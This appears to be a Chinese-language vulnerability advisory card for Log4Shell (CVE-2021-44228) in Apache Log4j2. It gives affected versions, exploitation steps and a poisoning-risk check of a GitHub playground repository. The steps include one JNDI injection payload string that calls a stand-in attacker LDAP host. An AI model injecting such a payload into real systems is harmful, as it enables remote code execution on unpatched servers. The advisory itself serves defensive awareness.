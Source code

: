 ## CVE-2021-44228-Apache Log4j2-JNDI注入

**漏洞编号:** CVE-2021-44228

**漏洞类型:** JNDI注入

**影响应用:** Apache Log4j2

**危害等级:** 高危，可能导致远程代码执行

**影响版本:** 2.0-beta9 <= version <= 2.15.0 (excluding security releases 2.12.2, 2.12.3, and 2.3.1)

**利用条件:** 目标系统使用受影响的Log4j2版本，且启用了message lookup substitution。

**POC 可用性:** 是

**投毒风险:** 0%

## 详情

CVE-2021-44228，又名Log4Shell，是Apache Log4j2中的一个严重漏洞。该漏洞源于Log4j2的JNDI功能未对攻击者控制的LDAP和其他JNDI相关端点提供保护。攻击者可以通过控制日志消息或日志消息参数，利用message lookup substitution功能从LDAP服务器加载并执行任意代码，从而实现远程代码执行(RCE)。

**漏洞利用方式：**

1.  **构造恶意请求：** 攻击者构造包含JNDI查找表达式的恶意请求，例如`${jndi:ldap://attacker.com/evil}`。该表达式会被记录到日志中。
2.  **JNDI查找：** Log4j2解析日志消息时，会识别并执行JNDI查找表达式。
3.  **LDAP请求：** Log4j2向攻击者控制的LDAP服务器(attacker.com)发起LDAP请求。
4.  **恶意代码加载：** LDAP服务器响应一个包含恶意Java类的URL。
5.  **远程代码执行：** Log4j2从URL加载并执行恶意Java类，导致RCE。

**有效性：**
根据漏洞库信息和搜索引擎结果，该漏洞利用的POC代码是有效的。搜索引擎结果中多个条目（如CISA，Palo Alto Networks，Sysdig，Cloudflare, NVD等）都确认了该漏洞的存在以及公开的POC代码的存在。漏洞库信息也明确指出该漏洞可以被利用来执行任意代码。

**投毒风险：**
提供的漏洞利用代码只包含GNU GPL协议文本，是一个许可协议，不包含任何可执行的代码。因此，判断此仓库中不存在作者隐藏的投毒代码，风险为0%。 该协议只声明了软件的使用许可，无法直接用于漏洞利用或者进行恶意攻击，与Log4Shell漏洞本身没有直接关系。


**项目地址:** [b-abderrahmane/CVE-2021-44228-playground](https://github.com/b-abderrahmane/CVE-2021-44228-playground)

**漏洞详情:** [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)